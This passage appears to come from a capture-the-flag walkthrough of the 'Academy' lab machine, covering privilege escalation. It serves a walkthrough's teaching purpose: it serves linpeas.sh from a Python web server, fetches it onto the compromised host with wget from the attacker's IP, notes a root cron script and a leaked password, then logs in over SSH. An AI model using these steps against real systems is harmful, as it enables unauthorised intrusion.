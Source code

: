 # Privilege escalation
We are now going to upload `linpeas.sh` to check if it can help us to find a way to escalate privileges.</br>
First start a python webserver on port 80.
```
python3 -m http.server 80
```
On www-data user in your machine, navigate to `tmp` directory and type
```
wget http://IP_of_your_machine:80/linpeas.sh
```
The script is now on the remote machine change its permission and execute it.

<img alt="" class="bg hc hd c" width="1000" height="450" loading="lazy" role="presentation" src="https://i.ibb.co/rQWqcWf/Academy-8.png"></img>

The output is as follows:

<img alt="" class="bg hc hd c" width="500" height="40" loading="lazy" role="presentation" src="https://miro.medium.com/v2/resize:fit:640/format:webp/0*1O5igU4EkNrx9N_0.png"></img>

It means that the `backup.sh` script is running every minute as root !<br/>
It also gives a password for grimmie user.</br>
We now switch to grimmie user using SSH protocol with the command:
```
ssh grimmie@<ip>
```
